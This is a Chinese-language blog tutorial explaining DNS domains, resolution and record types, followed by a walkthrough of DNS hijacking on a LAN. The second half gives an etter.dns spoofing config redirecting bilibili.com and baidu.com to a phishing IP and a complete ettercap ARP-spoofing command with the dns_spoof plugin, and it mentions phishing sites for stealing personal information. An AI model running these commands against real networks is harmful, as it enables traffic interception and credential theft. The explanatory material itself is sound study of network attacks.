 ```yaml
---
layout: post
title: "网络安全（一）主动进攻之DNS基础和ettercap实现DNS流量劫持"
date: "2022-10-09T21:19:37.388Z"
---
```

网络安全（一）主动进攻之DNS基础和ettercap实现DNS流量劫持
===================================

alittlemc，个人原创，个人理解和观点。若有错误、不理解请与我联系，谢谢！

*   介绍了DNS的解析过程。
*   DNS劫持的思路和实践。

DNS
===

域名
--

以为live.bilibili.com为例子，从后到前依次为顶级（一级）域名com、二级域名bilibili，三级域名live。www是特殊的标示代表主机，有一些域名再长点，就继续四级域名、五级域名加下去。

*   其实在顶级域名后还有一个根域写作**.（英文句号）**，**www.bilibili.com.**
*   顶级域名一般代表具有一定性质的网站，com商业、cn中国、gov政府机构等等
*   二级域名代表具体的网页名称所以主体
*   三级域名就是更细的划分，比如**teiba**.baidu.com
*   www是个特殊代表主机

DNS概述
-----

**DNS**（Domain Name System，域名系统），DNS简单来说就是**已知域名求IP**的服务。在TCP/IP协议下的网络中，设备之间通信都是用网络层的IP作目标标识的，但是访问网页我们往往通过域名来访问，比如bilibili对应的IP解析为119.3.70.188，https://bilibili.com比如https://119.3.70.188都可以打开bilibili站点，但是IP地址不是每个人都能很好的记忆的，更何况将来如果IPv6广泛应用了（如图1所示），所以是DNS一项很重要的技术。

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221008200222990-1520299257.png)

**图1**.www.bilibili.com解析出的IPv6地址

DNS服务在提供域名解析额同时，还为服务器提供负载均衡，IP优化域名优化的效果。

*   DNS一条域名可以解析出多条IP结果，这些IP对应提供相同的服务但是位置不同的服务器，将不同的IP返回给用户，不至于让某台服务器压力太大。
*   有一些高级的DNS服务器会客户的运营商提供较优的IP，比如在广西访问广东的IP往往比访问北京的来得更快些。

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221008210432576-19178791.png)

  **图2**.bilibili.com全部解析结果

DNS解析过程
-------

DNS一开始本机会“**先求人不如求己**”，先查询本机DNS存放在内存中缓存（这缓存几个小时后清除），本机hosts文件。实在是没有才会向本机设置的DNS Server发起请求，本机的DNS Server为阿里的223.5.5.5。

DNS使用UDP:53端口（当然也可以使用TCP:53，在较大请求和返回数据的情况下使用，因为UDP报文最大576字节且后续报文不分片直接丢弃。所以减去UDP报头，DNS报文数据限制在512字节内）。UDP的报文很干净，一来一回也不需要握手。

*   在终端输入NSLOOKUP查询一下www.bilibili.com，并且抓包：

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221008210936008-1059768507.png)

 **图3**.本机192.168.4.1与DNS Server 223.5.5.5的请求过程

DNS Server接受到任务后会查询DNS数据库的，当然“人非圣贤孰能无过”，DNS Server也会查询不到IP，会再向上游DNS Server发起请求：

*   递归查询：不知道就问上一级（PC请求Server1时候也属于递归查询）
*   迭代查询：不知道认识的都问一遍

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221008215532741-476720014.png)

 **图4**.本机192.168.4.1与DNS Server 223.5.5.5的请求过程

 DNS查询记录
--------

DNS有不同的记录：

*   A 记录
    *   域名解析IPv4地址
*   AAAA 记录
    *   和A 记录类似，域名解析IPv6 地址
*   PTR记录
    *   IP解析域名，即反向解析，比如nslookup输入server 223.5.5.5反向解析出了public1.alidns.com

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221009211416539-2015593226.png)

**图5**.反向解析

*   CNAME 记录
    *   CNAME 记录另一个别名域，

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221009204338882-250460677.png)

**图6**.a.w.bilibili.com和www.bilibili.com相同

*   其他的记录还有:SOA 记录还有、MX记录、NS记录、TXT记录、SRV记录、APL记录、CAA记录、DNAME记录 等等。太多啦，不在本次的讨论范围啦。
    

基于ettercap实现DNS劫持
=================

完成思路
----

温馨提示：DNS劫持是违法的，请不要以身试法（一般情况我们称黑客 为小黑子香精捞饭）

1.  搭建假的DNS Server提供可以自定义DNS解析条件，基于ettrcap使用自带的**/etc/ettercap/etter.dns**。
2.  搭建假的钓鱼网站，其IP由假的DNS服务器提供，当然也可以搭建某些中转的网站，比如某个编写了恶意脚本的站点，用户打开后GET 其URL，再执行脚本后跳转。（相比于近似发，taobao.com和ta0ba0.com，DNS可以让正确的域名对于错误的站点，更隐蔽）
3.  部署站点：
    *   ettercap的基于可arp来实现的，所以只在局域网中使用，用于。
    *   钓鱼网站站点可以搭建在局域网内也可以搭建在公网中，具体内容和作用嘛，其实应该有看见过，用于盗取一些个人信息；配置使用nginx、apache作为中间价，PHP之类作为解析（或者静态的html，post到动态PHP界面）
4.  使用ettercap发起攻击

ettercap的使用
-----------

ettercap是基于ARP 地址欺骗来实现中间人攻击的工具。

可恶我的kali截图丢了，后面我会补上。

一般情况下完整版的Kali是自带甚至有图形界面，

*   github：https://github.com/Ettercap/ettercap
*   官网：[Downloads « Ettercap (ettercap-project.org)](https://www.ettercap-project.org/downloads.html)

### 编辑（假DNS请求）**/etc/ettercap/etter.dns**

\# 域名    A    钓鱼网站IP
# 比如
# 正向A

www.bilibili.com    A    10.100.10.4
www.baidu.com    　A    10.100.10.4

# 反向PRT
www.bilibili.com    PRT    10.100.10.4
www.baidu.com    PRT    10.100.10.4

### 发起攻击过程

\# 查看网关 网卡等
root @ localhost in ~ \[21:54:10\] C:1$ **sudo route -****n**
Kernel IP routing table
Destination Gateway Genmask Flags Metric Ref Use Iface
**10.100.10.1** 0.0.0.0 255.255.255.192 U 0 0 0 **wlan0**

\---

**ettercap -i wlan0 -Tq -M arp:remote -P dns\_spoof /被攻击者ip// /被攻击者网关//**
\-i <网卡>：指定网卡
\-T：只显示文本
\-q：安静模式，不显示抓到的数据包内容
\-M <攻击方式>：执行中间人攻击，这里的arp:remote为arp欺骗
\-P <插件名>：使用的插件，这里使用dns\_spoof即可dns欺骗插件

**ettercap -i wlan0 -Tq -M arp:remote -P dns\_spoof /10.100.10.120// /10.100.10.1//**

\--

今天先写这么多啦，好困啊，今天早点休息吧。